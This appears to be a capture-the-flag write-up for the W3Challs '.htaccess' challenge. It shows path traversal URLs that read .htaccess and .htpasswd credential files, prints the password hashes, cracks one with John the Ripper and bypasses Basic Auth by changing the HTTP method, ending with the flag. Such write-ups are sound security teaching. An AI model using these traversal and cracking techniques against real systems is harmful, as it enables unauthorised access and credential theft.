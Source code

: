 # .htaccess

1. First, lets go through the web and view the source on the git repository.
2. Then, we can read the README.md and see that we have to change the path. The most important thing is the "secret" path's name is changed, so the first mission now is find out the hidden name. 
3. Now, we are able to know that we are in the direction "inc" and after we read "index.php".
    ```
    <?php

    require_once __DIR__.'/inc/top.php';

    if (isset($_GET['page']) && is_string($_GET['page']))
    {
        $page = __DIR__.'/inc/'.$_GET['page'];

        if (!file_exists($page))
        {
            printf('<div class="error">This page doesn\'t exist!</div>');
            exit();
        }

        require_once $page;
    }
    else
        require_once __DIR__.'/inc/home.php';

    require_once __DIR__.'/inc/footer.php';

    ?>
    ```
    We know that we have to traval the file by the url "http://htaccess.hax.w3challs.com/index.php?page=". Now, we are able to travel and we first go through the direction "http://htaccess.hax.w3challs.com/index.php?page=../admin/.htaccess". Here is the data we get : 
    ```
    AuthUserFile /home/htaccess/www/UlTr4_S3cR3T_p4Th/.htpasswd AuthGroupFile /dev/null AuthName "Private area" AuthType Basic require valid-user
    ```
    The most important thing is we get the name of the "secret" file "UlTr4_S3cR3T_p4Th". 
4. Now, we are able to get more information by "http://htaccess.hax.w3challs.com/index.php?page=../UlTr4_S3cR3T_p4Th/.htpasswd" and here is the data we get : 
    ```
    admin1:$apr1$Ikl22aeJ$w1uWlBGlbatPnETT2XGx.. 
    admin2:$apr1$yJnQGpTi$WF5eCC/8lKsgBKY7fvag60 
    admin3:$apr1$fN20xzIa$UAnYxYS8qRiO8WKPJwOlK1 
    admin4:zQMI5ehC.sED2 
    admin5:{SHA}CKVCPg9EZI8U9KPPakEXgfXrMIc= 
    superadmin:{SHA}pAsyOzA/MHasbNO0OKRuXSp5sRI=
    ```
    After get the information, the first thing I do is using john the ripper to crack the code and I get : 
    ```
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
    Use the "--format=md5crypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE4.1 4x5])
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/local/Cellar/john-jumbo/1.9.0/share/john/password.lst, rules:Wordlist
    orange           (?)
    1g 0:00:00:00 DONE 2/3 (2020-02-02 17:22) 100.0g/s 14000p/s 14000c/s 14000C/s brian..skippy
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
    So, we know the username : admin1 and the password : orange. Now, lets login "http://htaccess.hax.w3challs.com/admin/" and get the first part of the flag.
5. Then, we have to login superadmin to get the second part of the flag. After tones of time cracking "{SHA}pAsyOzA/MHasbNO0OKRuXSp5sRI=", I find out that it is impossible to crack it. Well ... maybe ten years but I have no time! So, I seek of another way to pass it. I read more closer to the "superadmin/.htaccess" file : 
    ```
    AuthUserFile /var/www/secret/.htpasswd_super
    AuthGroupFile /dev/null
    AuthName "Private area - superadmin only"
    AuthType Basic

    <Limit GET POST>
        require valid-user
    </Limit>
    ```
    Lets get closer look to the "Limit" part, and here some [information](https://defendtheweb.net/discussion/1159-bypassing-htaccesshtpasswd-based-authentication) I found on the web. Now, we are able to by pass it by changing the method using the url "http://htaccess.hax.w3challs.com/superadmin/index.php" and get the second part of the flag.
6. Here is the flag : W3C{__0hMyG0d_Th3yKi7l3dk3nNy}
